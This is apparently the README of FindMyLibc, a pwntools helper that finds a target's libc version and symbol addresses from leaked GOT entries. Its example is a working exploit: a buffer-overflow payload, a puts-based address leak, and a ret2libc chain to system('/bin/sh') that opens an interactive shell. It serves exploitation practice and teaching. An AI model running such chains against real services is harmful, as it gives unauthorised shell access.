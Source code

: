 # FindMyLibc
You're exploiting a binary, you've found an address leak, now you need the libc version  
and most importantly, the addresses of symbols like `system` and `str_bin_sh`.

This tool is the easiest to setup & use!  
**No heavy libc downloading, all remote, 1 simple function call.**

## Disclaimer
This was tested only on 32-bit binary, so it might not work properly on 64-bit binaries.  
Would be updated!

# Setup
```bash
pip install findmylibc
```  
Then use easily:  
```python
from findmylibc import *
...
matching_libc = find_libc(elf, leak_libc_address)
```    

# The `find_libc` parameters
## `elf`:
An object of the class `ELF` from `pwntools`, usually created by calling: 
```python
ELF('binary-name')
```

## `leak_libc_address`:
A function with signature of:  
```python
def my_leak_func(symbol_name_str): ... ->  return leaked_address_integer
```  
You must create this function,  
where the only parameter is of type **string** - the symbol name to leak,  
and the return value is the leaked address as **integer**.


## `stop_libs_amount` (optional)
The default value is `3`- if we reach 3 matching libc versions, it's enough and we stop searching.  
You can change it if you'd like to:  
```python
matching_libc = find_libc(elf, leak_libc_address, stop_libs_amount=2)
```

# Example
Here's a simple example of an exploit script (see [`.example/example.py`](https://github.com/omrina/FindMyLibc/blob/main/example/example.py)).

### Setup your binary exploit script:
Whatever you need here...
```python
from pwn import *
from FindMyLibc import *

# Setup your binary
elf = ELF("./elf_name")
host = args.HOST or 'localhost'
port = int(args.PORT or 5555)
io = connect(host, port)
```

### Set up our "leak address" function:

```python
# Payload until right before the return address
payload = b'A' * 512 + b'BBBBCCCCDDDD'

# Example function that gets a symbol name and leaks its address from the binary
def leak_libc_address(symbol_name):
    libc_symbol_address = elf.got[symbol_name]
    puts = elf.symbols["puts"]

    io.recvline()
    io.send(payload + p32(puts) + p32(libc_symbol_address))
    received = io.recv()

    return u64(received.ljust(8, b"\x00"))
```
### Now the real deal:
```python
# call `find_libc`, it returns a list of matching libc candidates.
matching_libc = find_libc(elf, leak_libc_address)
chosen_libc = matching_libc[0]

# Each libc candidate comes with the attribute of `base_address`
print("libc base_address at: %s " % hex(chosen_libc['base_address']))

# Everything you need is probably in `syms`,
# a dictionary of ALL the libc symbols: {symbol: calculated_address}
binsh_address = chosen_libc['syms']['str_bin_sh']
system_address = chosen_libc['syms']['system']
print("/bin/sh at: %s" % hex(binsh_address))
print("system at: %s " % hex(system_address))
```

The output from `.example/example.py`:

![image](https://github.com/user-attachments/assets/dfd95d72-e202-4d59-9e44-fcfd4d01eccd)


### What is `chosen_lib`:

![image](https://github.com/user-attachments/assets/06ff78eb-f59b-4ba6-b199-079e0e091781)

### How to use the results:
You would probably need only `syms`, a dict of `{symbol_name_str: calcualted_address_integer}`,  
so continuing the example above, one might use:
```python
# Remember: chosen_libc['syms']['system'] AND chosen_libc['syms']['str_bin_sh']
shell_rop = p32(system_address) + b'EEEE' + p32(binsh_address)
io.send(payload + shell_rop)
io.interactive()
```

# How does it work?
The finder leaks the address of common symbols:  
```python
_common_symbols_to_leak = ['__libc_start_main', 'puts', 'printf', 'gets', 'read', 'write', 'send', 'recv']
```  
Then it makes reqeusts to the public `https://libc.rip/api/find`, with different combination of leaked symbols every time.  

E.g.- we send a request with `{'puts': 'leaked-address-of-puts', 'gets': 'leaked-address-of-gets'}`.  
A response would be a list of matching libc versions metadata (each item is like a part of `chosen_lib` seen earlier).
